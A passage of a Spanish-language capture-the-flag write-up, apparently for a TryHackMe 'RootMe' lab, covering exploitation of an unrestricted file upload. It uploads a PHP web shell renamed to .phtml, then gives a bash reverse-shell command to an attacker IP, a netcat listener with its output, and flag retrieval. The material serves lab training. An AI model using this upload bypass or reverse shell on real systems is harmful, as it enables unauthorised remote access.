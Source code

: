 ## Explotación

---

### Carga de archivos sin restricciones (Unrestricted File Upload)

Entonces, podemos aprovecharnos de esto para cargar una web shell al servidor con cualquiera de las extensiones permitidas, excepto la extensión `.php`. En este caso, haremos uso de la web shell [easy-simple-php-webshell.php](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) y le cambiaremos la extensión por `.phtml`.

![success](success.png)

Una vez subida la web shell, accedemos al directorio `uploads` para confirmar que está en el servidor.

![uploads2](uploads2.png)

Accedemos a la web shell y ejecutamos el comando `id` para ver si el servidor interpreta correctamente el comando.

![id](id.png)

Una vez confirmada la ejecución de código, podemos establecer una reverse shell hacia nuestro equipo atacante con el siguiente comando:

```bash
bash -c "bash -i >& /dev/tcp/192.168.221.140/443 0>&1"
```

Para recibir la conexión, primero debemos establecer nuestro listener en el puerto especificado en el comando anterior.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.163.218] 50014
bash: cannot set terminal process group (892): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/var/www/html/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Una vez ganado acceso al sistema, debemos buscar la primera flag del usuario. Para facilitar este proceso, ejecutamos el siguiente comando:

```bash
www-data@rootme:/home/rootme$ find / -name user.txt -type f 2>/dev/null
/var/www/user.txt
```

Identificada la ruta, procedemos a leer la flag.

```bash
www-data@rootme:/home/rootme$ cat /var/www/user.txt
THM{***************}
```
